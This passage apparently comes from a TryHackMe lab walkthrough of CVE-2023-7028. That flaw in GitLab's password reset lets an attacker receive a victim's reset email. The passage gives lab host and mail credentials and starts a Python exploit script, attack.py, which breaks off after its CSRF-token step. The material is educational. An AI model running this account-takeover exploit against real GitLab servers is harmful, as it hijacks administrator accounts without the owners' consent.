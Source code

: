 
The code located at `spec/controllers/passwords_controller_spec.rb` was accepting multiple emails as input; however, it lacked the email verification and validation mechanism to confirm if it was associated with the correct user.&#x20;

![code edit to accept single mail](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/20ade8839fb7db0e8a139ef10951bdc6.png)\


The attacker only required the authenticity\_token during form submission and the victim's email address to gain control of the target account.

## How to Exploit

Exploiting the vulnerability is simple for a red teamer and only requires an API call to `/users/password` method with the victim and target email address.

Connecting to the Machine\
We will use an Ubuntu-based machine hosting a GitLab instance to demonstrate the room's red team perspective. Start the virtual machine by clicking the `Start Machine` button in this task. Please wait 2-3 minutes for the machine to fully boot up. You can access the vulnerable GitLab instance by visiting the URL `http://gitlab.thm:8000`, but first, you need to add the hostname to your OS or AttackBox.

Moreover, the email server is accessible at `http://10.10.62.35:8090/rainloop`, which will be used during exploitation with the following credentials:

* Username: `attacker@mail.gitlab.thm`
* Password: `testing@123`

Preparing the Payload

We will be using a modified version of the [PoC](https://github.com/Vozec/CVE-2023-7028/blob/main/CVE-2023-7028.py) developed by Vozec to take control of the administrator account. Create a new file called `attack.py` and add the following code.

**attack.py**

```shell-session
import requests
import argparse
from urllib.parse import urlparse, urlencode
from random import choice
from time import sleep
import re
requests.packages.urllib3.disable_warnings()

class CVE_2023_7028:
    def __init__(self, url, target, evil=None):
        self.use_temp_mail = False
        self.url = urlparse(url)
        self.target = target
        self.evil = evil
        self.s = requests.session()

    def get_csrf_token(self):
        try:
            print('[DEBUG] Getting authenticity_token ...')
            html = self.s.get(f'{self.url.scheme}://{self.url.netloc}/users/password/new', verify=False).text
            regex = r'<meta name="csrf-token" content="(.*?)" />'
            token = re.findall(regex, html)[0]
            print(f'[DEBUG] authenticity_token = {token}')
            return token
        except Exception:
            print('[DEBUG] Failed ... quitting')
            return None

    def ask_reset(self):
```